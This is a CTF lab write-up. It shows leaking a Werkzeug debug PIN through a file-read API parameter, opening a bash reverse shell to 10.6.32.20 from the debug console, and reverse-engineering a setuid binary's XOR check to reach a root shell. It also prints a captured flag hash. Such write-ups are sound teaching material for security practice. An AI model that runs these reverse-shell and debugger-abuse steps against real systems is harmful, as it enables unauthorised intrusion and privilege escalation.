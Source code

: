 
OMGGGG....after some time fiddling with generating some pins, i read a write up and... AGAIN... fuckin `.bash_history`
So yeah.. Dumping that with `:5000/api/v1/resources/books?show=.bash_history` we get 
```
cd /home/sid
whoami
export WERKZEUG_DEBUG_PIN=123-321-135
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
```

So yeah... that was stupid. Thought it would have been cooler if we had to recreate the pin (I'm just salty because I did it for nothing :P)


Now i got a python console.

We get a reverse shell using
```
import os
os.system("bash -c 'bash -i >& /dev/tcp/10.6.32.20/8888 0>&1'")
```

We got a shell as `sid`.
we get the `user.txt` flag:
```
4ea65eb80ed441adb68246ddf7b964ab
```

There is a setuid binary named `try-harder` in the home directory.

We retrieve the binary by spawning an http server `python3 -m http.server`.

I guess we can bruteforce the number ?

Tried that just for fun, left it to run in the background and poped up `Ghidra`.

There is no function ref in the binary so we start at `.text`.
We get to the main function and find the interesting code :
```c
  puts("What\'s The Magic Number?!");
  scanf(&input);
  input_xor = input ^ 0x1116 ^ 0x5db3;
  if (input_xor == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
```

By re xoring the output `0x5dcd21f4 ^ 0x1116 ^ 0x5db3`
We get:
```
1573743953
```
